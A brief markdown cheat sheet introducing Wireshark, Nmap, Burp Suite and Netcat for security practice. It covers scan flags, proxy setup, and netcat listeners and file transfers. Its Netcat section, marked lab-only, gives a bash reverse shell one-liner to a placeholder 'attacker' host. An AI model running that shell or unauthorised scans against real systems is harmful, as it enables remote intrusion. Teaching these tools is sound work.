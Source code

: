 # Hands-on Tools — Wireshark, Nmap, Burp Suite, Netcat

## Wireshark (packet capture)
- Start capture on interface; use display filters like `ip.addr == x.x.x.x` or `http`.
- Save as `.pcapng` and analyze protocols, follow TCP streams.

## Nmap (network scanning)
- `nmap -sS -Pn -sV target` — stealth SYN scan, no ping, service/version.
- `nmap -A target` — aggressive scan (OS, scripts).
- Use `-oN`/`-oX` to save output.

## Burp Suite (web proxy)
- Intercept HTTP(S) requests from a browser by configuring proxy (127.0.0.1:8080).
- Use Intruder, Repeater, and Scanner (Professional) for testing.

## Netcat (nc)
- Quick listeners: `nc -l 1234`
- Banner grabs: `echo -e "HEAD / HTTP/1.0\r\n\r\n" | nc host 80`
- File transfer: `nc -l 9000 > file` (receive) and `nc host 9000 < file` (send)
- Reverse shells (lab/testing only): `nc -l -p 4444` (attacker) and `bash -i >& /dev/tcp/attacker/4444 0>&1` (target)

## Practical exercise suggestions
- Capture an `nmap` scan in Wireshark and observe SYN, SYN-ACK, ACK sequences.
- Use Burp Repeater to manually modify HTTP parameters and observe server responses.
